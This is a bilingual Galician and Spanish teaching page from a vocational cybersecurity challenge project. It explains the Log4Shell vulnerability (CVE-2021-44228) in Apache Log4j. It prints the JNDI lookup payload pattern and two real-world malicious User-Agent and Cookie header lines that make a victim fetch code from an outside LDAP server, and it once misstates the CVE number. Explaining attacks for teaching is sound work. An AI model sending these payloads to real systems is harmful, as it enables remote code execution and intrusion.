

### Log4Shell

O 9 de decembro de 2021 faise pública a vulnerabilidade **CVE-2021-44228** (tamén coñecida como **Log4shell**). Trátase dunha vulnerabilidade que **permite a execución remota de código (RCE)**, que afecta á librería de software de código aberto Log4j, desenvolta en linguaxe Java, mantida por *Apache Software Foundation* e moi utilizada no software empresarial Java para a escritura de logs.

Debido ao amplo uso de Log4j, o sinxelo que é explotar a vulnerabilidade e que permite ao atacante a execución de comandos no equipo afectado (para gañar privilexios de administrador,  exfiltrar información, minado de  criptomonedas, …), considérase á CVE-2021-44288 como unha **vulnerabilidade de nivel crítico**.

Os atacantes lanzan peticións maliciosas coa seguinte estrutura: `${jndi:ldap://<servidor do atacante>/<payload>}` ou `${jndi:dns://<servidor do atacante>/<payload>}`. Este tipo de peticións ao ser procesadas por Log4j provocan que o equipo vítima conéctase ao servidor do atacante, descarga o payload e execútao. A continuación pódense ver algúns exemplos de peticións maliciosas incrustadas en campos do protocolo HTTP:
  
`User-Agent: ${jndi:ldap://2.57.121.36:8000/mss}`
  
`Cookie: ${jndi:ldap://45.83.64.1/securityscan-3g32njrlbok56r5i}`

Tras a publicación da vulnerabilidade, o GovCERT.ch (Computer Emergency Response Team) de Suíza publicou a seguinte imaxe que resume o proceso de ataque e as medidas de defensa: 
  
<h3 class="text-center">
  </h3>

El 9 de diciembre de 2021 se hace pública la vulnerabilidad **CVE-2021-44228** (también conocida como **Log4shell**). Se trata de una vulnerabilidad que **permite la ejecución remota de código (RCE)**, que afecta a la librería de software de código abierto Log4j, desarrollada en lenguaje Java, mantenida por Apache Software Foundation y muy utilizada en el software empresarial Java para la escritura de logs. Debido al amplio uso de Log4j, lo sencillo que es explotar la vulnerabilidad y que permite al atacante la ejecución de comandos en el equipo afectado (para ganar privilegios de administrador, exfiltrar información, minado de criptomonedas, …), se considera a CVE-2021-44288 como una **vulnerabilidad de nivel crítico**.

Los atacantes lanzan peticiones maliciosas con la siguiente estructura: `${jndi:ldap://<servidor del atacante>/<payload>}` o `${jndi:dns://<servidor do atacante>/<payload>}`. Este tipo de peticiones al ser procesadas por Log4j provocan que el equipo víctima se conecte al servidor LDAP del atacante, se descargue el payload y lo ejecute. A continuación se pueden ver algunos ejemplos de peticiones maliciosas incrustadas en campos del protocolo HTTP:
  
`User-Agent: ${jndi:ldap://2.57.121.36:8000/mss}`

`Cookie: ${jndi:ldap://45.83.64.1/securityscan-3g32njrlbok56r5i}`

Tras la publicación de la vulnerabilidad, el GovCERT.ch (Computer Emergency Response Team) de Suiza publicó la anterior imagen que resume el proceso de ataque y las medidas de defensa

---
 
<table align="center" cellspacing="50">
<tr>
   <td><h1 align=center><a href="https://www.iessanclemente.net/" target="_blank">IES San Clemente</a></h1></td>
   <td><h1 align=center><a href="https://www.cifprodolfoucha.es/"  target="_blank">CIFP Rodolfo Ucha Piñeiro</a></h1></td>
</tr>
<tr>
    <td></td>
    <td></td>
</tr>
</table>
      
 

      <h6>Actividade desenvolvida dentro do proxecto "Plataforma de retos de ciberseguridade. A gamificación no proceso de adquisición de competencias no ámbito da ciberseguridade", financiado na convocatoria de premios para o desenvolvemento de proxectos de innovación na FP do ano 2022.</h6>

